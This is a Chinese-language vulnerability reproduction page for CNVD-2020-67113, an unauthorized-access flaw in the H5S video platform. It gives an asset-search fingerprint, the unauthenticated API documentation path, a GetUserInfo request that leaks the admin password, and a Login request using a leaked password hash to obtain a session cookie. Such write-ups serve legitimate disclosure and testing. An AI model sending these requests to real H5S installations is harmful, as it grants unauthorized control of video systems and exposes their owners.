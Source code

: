 

# 零视科技 H5S视频平台 GetUserInfo 信息泄漏漏洞  CNVD-2020-67113

## 漏洞描述

零视技术(上海)有限公司是以领先的视频技术服务于客户，致力于物联网视频开发简单化，依托于HTML5 WebRTC 等新的技术，实现全平台视频播放简单化。
零视技术(上海)有限公司H5S CONSOLE存在未授权访问漏洞。攻击者可利用漏洞访问后台相应端口，执行未授权操作。

## 漏洞影响

<a-checkbox checked>零视科技 H5S视频平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="H5S视频平台|WEB"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1636073252475-8f3cb570-d930-46e3-b8a6-0a686773c84a.png)

API文档可以未授权访问

```php
/doc/api.html
```

![img](../../../.vuepress/public/img/1636074612323-f1fee2de-e43f-4842-9e03-8066f9a1b7fc.png)

存在用户账号密码泄漏的接口

```php
/api/v1/GetUserInfo?user=admin&session=
```

![img](../../../.vuepress/public/img/1636073746405-1adf993c-1e08-461a-9f7f-a3ab07f969ad.png)

其中登录接口中 Password为接口中存在的账号密码，可以直接发送请求获取Cookie

```php
/api/v1/Login?user=admin&password=02ed400b8d9289f311fc1d68a83fdaaa
```

![img](../../../.vuepress/public/img/1636073812938-d82c758c-891a-40aa-9e17-037339b99765.png)

请求成功后访问主页面

![img](../../../.vuepress/public/img/1636073852540-6758c6d5-f945-4aec-8c53-53328c3cbc7d.png)